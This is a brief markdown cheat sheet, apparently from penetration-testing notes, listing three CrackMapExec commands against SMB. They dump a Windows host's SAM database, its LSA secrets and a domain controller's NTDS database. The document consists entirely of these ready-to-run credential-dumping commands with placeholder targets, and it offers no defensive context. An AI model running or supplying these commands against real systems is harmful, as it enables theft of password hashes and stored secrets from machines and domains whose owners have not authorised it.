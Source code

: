 # Crackmapexec

## Dump SAM

`crackmapexec smb <ip> --local-auth -u "" -p "" --sam`

## Dump LSA Secrets

`crackmapexec smb <ip> --local-auth -u "" -p "" --lsa`

## Dump NTDS

`crackmapexec smb <ip> -u <username> -p <password> --ntds`
